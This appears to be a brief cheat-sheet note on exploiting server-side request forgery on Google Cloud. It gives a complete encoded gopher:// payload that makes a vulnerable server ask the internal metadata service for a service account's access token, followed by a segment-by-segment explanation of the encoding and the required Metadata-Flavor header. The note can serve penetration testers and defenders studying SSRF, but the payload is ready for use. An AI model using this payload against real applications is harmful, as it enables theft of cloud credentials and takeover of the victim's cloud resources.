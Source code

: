 # SSRF using Gopher protocol

### If we successfully detect a SSRF vulnerability in a web app and the web app is hosted on GCP, we may use specific protocols and URLs to request specific information, depending on the case.

### URLs:

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a

## Protocol and Target: gopher://metadata.google.internal:80/ 

#### This part of the payload specifies that the Gopher protocol is being used to make a request to metadata.google.internal on port 80. As mentioned, metadata.google.internal is a special domain used internally by Google Cloud services to provide metadata information to VM instances.

## Crafted Request: GET /computeMetadata/v1/instance/service-accounts/SERVICE_ACCOUNT/token 

#### This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.

## %2520HTTP%252f%2531%252e%2531 

#### This is an encoded form of " HTTP/1.1"

## %250AHost:%2520metadata.google.internal 

#### This is an encoded header specifying the host.

## %250AAccept:%2520%252a%252f%252a 

#### Encoded header for the Accept field, indicating that any media type is acceptable in response.

## %250aMetadata-Flavor:%2520Google 

#### Importantly this sets the header that is required to access the metadata service.

